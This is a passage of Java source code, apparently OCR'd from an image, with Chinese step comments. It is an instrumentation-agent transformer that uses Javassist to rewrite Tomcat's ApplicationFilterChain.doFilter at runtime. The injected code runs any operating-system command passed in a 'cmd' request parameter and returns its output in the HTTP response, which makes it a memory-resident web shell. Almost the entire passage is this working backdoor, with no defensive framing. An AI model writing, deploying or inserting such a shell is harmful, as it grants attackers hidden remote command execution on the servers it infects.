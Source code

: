 ```java

        // 1. 只处理目标类 "org/apache/catalina/core/ApplicationFilterChain"（注意路径格式是 / 分隔）
        if (classname.equals("org/apache/catalina/core/ApplicationFilterChain")) {

            // 2. 初始化 Javassist 类池
            ClassPool pool = ClassPool.getDefault();
            pool.appendClassPath(new LoaderClassPath(loader)); // 添加当前 ClassLoader 的路径

            try {
                // 3. 从原始字节码构建 CtClass 对象
                CtClass cc = pool.makeClass(new ByteArrayInputStream(classfileBuffer));

                // 4. 获取目标方法 doFilter()
                CtMethod doFilter = cc.getDeclaredMethod("doFilter");

                // 5. 在 doFilter() 方法开头插入代码
                doFilter.insertBefore(
                        "javax.servlet.http.HttpServletRequest req =  request;\n" +
                                "javax.servlet.http.HttpServletResponse res = response;\n" +
                                "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                                "if (cmd != null){\n" +
                                "    try {\n" +
                                "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                                "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                                "        String line;\n" +
                                "        StringBuilder sb = new StringBuilder(\"\");\n" +
                                "        while ((line=reader.readLine()) != null){\n" +
                                "            sb.append(line).append(\"\\n\");\n" +
                                "        }\n" +
                                "        response.getOutputStream().print(sb.toString());\n" +
                                "        response.getOutputStream().flush();\n" +
                                "        response.getOutputStream().close();\n" +
                                "    } catch (Exception e){\n" +
                                "        e.printStackTrace();\n" +
                                "    }\n" +
                                "}");
                // 6. 返回修改后的字节码
                return cc.toBytecode();

            } catch (Exception e) {
                throw new RuntimeException(e);
            }
        }
        return new byte[0];
    }

    public void retransform(Instrumentation inst) throws UnmodifiableClassException {
        inst.addTransformer(new CustomClassTransformer(), true);
        for (Class<?> clazz : inst.getAllLoadedClasses()) {
            if (clazz.getName().equals("org.apache.catalina.core.ApplicationFilterChain")) {
                try {
                    inst.retransformClasses(clazz);
                } catch (UnmodifiableClassException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
}
```
